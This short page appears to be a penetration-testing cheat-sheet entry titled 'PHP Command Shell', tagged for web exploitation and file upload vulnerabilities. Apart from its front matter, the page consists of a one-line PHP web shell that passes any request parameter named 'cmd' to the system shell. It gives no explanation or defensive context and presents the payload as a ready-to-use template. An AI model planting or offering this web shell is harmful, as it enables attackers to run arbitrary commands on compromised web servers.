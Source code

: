 ```yaml
---
title: "PHP Command Shell"
date: 2024-7-8
tags: ["Reverse Shell", "Php", "Shell", "Template", "Web Exploitation", "File Upload Vulnerability"]
---
```


### PHP Command Shell

```php
<?php system($_REQUEST['cmd']); ?>
```
